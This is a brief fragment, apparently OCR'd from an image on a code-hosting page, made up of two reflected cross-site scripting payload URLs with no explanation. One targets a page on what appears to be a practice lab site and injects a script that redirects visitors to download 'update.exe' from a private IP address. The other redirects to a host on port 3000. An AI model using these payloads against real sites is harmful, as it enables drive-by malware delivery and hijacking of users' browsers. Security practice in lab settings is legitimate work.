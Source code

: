 http://www.insecurelabs.org/Task/Rule1?query=<script>document.location="http://10.0.2.13/update.exe ";</script>



http://10.0.0.6?query=<script>document.location="10.0.0.6:3000";</script>
